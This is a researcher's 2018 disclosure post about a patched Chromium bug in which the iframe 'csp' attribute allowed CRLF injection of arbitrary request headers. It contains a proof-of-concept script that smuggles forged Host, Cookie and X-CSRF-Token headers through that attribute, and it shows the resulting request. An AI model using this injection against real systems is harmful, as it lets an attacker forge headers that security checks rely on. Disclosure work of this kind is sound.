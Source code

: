 ```yaml
---
title: "Setting arbitrary request headers in Chromium via CRLF injection"
date: "2018-06-20"
---
```


In this short note I'll describe a bug I found in Chrome recently. It allowed to set arbitrary headers in cross-domain requests. [@insertScript](https://insert-script.blogspot.co.at/2018/05/adobe-reader-pdf-client-side-request.html) recently found a very similar bug in Adobe Reader plugin but it turns out you can still expect those bugs in browsers themselves.

Why is it serious? Because you can use it to inject any request headers, including ones on which security decisions are based, like `X-CSRF-Token`, `Host`, `Referer` or `Cookie`.

### Technical details

I recently stumbled upon a new property of `<iframe>` element I've not been aware of before. The property is called `csp`.  As you can guess, it accepts a CSP policy. Let's check it:

[![](https://3.bp.blogspot.com/-0UTA75NdymQ/Wwj6GJ5TiXI/AAAAAAAAANc/D-T773dYDKYbzk_a2ASTeHcOLkE2002LACLcBGAs/s400/csp.png)](https://3.bp.blogspot.com/-0UTA75NdymQ/Wwj6GJ5TiXI/AAAAAAAAANc/D-T773dYDKYbzk_a2ASTeHcOLkE2002LACLcBGAs/s1600/csp.png)

So what does it actually do? When you set src for the iframe, the following request will be generated:

    GET / HTTP/1.1
    Host: www.google.com
    upgrade-insecure-requests: 1
    sec-required-csp: script-src google.com
    user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    accept-encoding: gzip, deflate, br
    accept-language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
    cookie: [...]

There's a new `Sec-Required-CSP` header whose value is equal to the csp attribute set earlier. The name of the header makes it easy to google that we're dealing with [CSP Embedded Enforcement](https://w3c.github.io/webappsec-csp/embedded/). In short, it is a mechanism for web developers that they can ask nicely embedded content for a specific CSP policy. The embedded content may accept it or reject; in the second case the page won't be rendered.

Anyway, going back to the `csp` attribute: since its value is reflected in request header, it basically calls for CRLF injection. Let's try it:

```html
<!DOCTYPE html><meta charset="utf-8" /> .
<script>
  const ifr = document.createElement("iframe");
  ifr.src = "http://bntk.pl/";
  ifr.csp =
    "script-src\r\nX-CSRF-Token: 1234\r\nUser-Agent: Firefox\r\nCookie: abc\r\nHost: absolutely-random-host.google";

  document.body.appendChild(ifr);
</script>
```

And it generated a request:

    GET / HTTP/1.1
    Host: absolutely-random-host.google
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Sec-Required-CSP: script-src
    X-CSRF-Token: 1234
    User-Agent: Firefox
    Cookie: abc
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7

This was pretty bad!

### Timeline

- May 23 - [bug reported](https://bugs.chromium.org/p/chromium/issues/detail?id=845961)
- May 25 - bug fixed
- June 6 - fixed in stable Chrome
- June 20 - disclosure
